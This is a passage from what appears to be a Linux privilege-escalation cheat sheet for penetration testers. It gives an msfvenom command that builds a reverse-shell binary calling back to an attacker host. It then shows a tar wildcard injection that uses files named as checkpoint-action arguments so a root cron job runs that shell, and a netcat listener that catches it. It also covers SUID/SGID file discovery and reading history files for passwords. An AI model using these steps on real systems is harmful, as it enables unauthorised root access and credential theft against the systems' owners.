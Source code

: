 ```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<kali-ip> LPORT=53 -f elf -o shell.elf
```

2\. Transfer reverse shell binary to the compromised host

3\. Create an "action" at each checkpoint on the compromised host

```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=shell.elf
```

4\. Begin a netcat listener on your Kali machine

```
nc -lnvp 53
```

5\. Wait for the crontab to run and you will get a root shell

## SUID/SGID Files

<mark style="color:yellow;">SUID</mark> files get executed with the privileges of the file owner.

<mark style="color:yellow;">SGID</mark> files get executed with the privileges of the file group.

NOTE: If the file is owned by root, it gets executed with root privileges and we will be able to use it to escalate privileges.&#x20;

### Finding SUID/SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

## Passwords & Keys

Although rare, weak password storage and password reuse can be an easy way to escalate privileges.

Be sure to always check config files for cleartext credentials.

If the root user reused their password for a service, that password may be found and used to switch to the root user.&#x20;

### History Files

History files record issued by users while they are using certain programs.

If a user types a password as part of a command, the password may get stored in a history file.

It is always a good idea to try switching to the root user with a discovered password.

Commands

```
cat .*history |  less
```
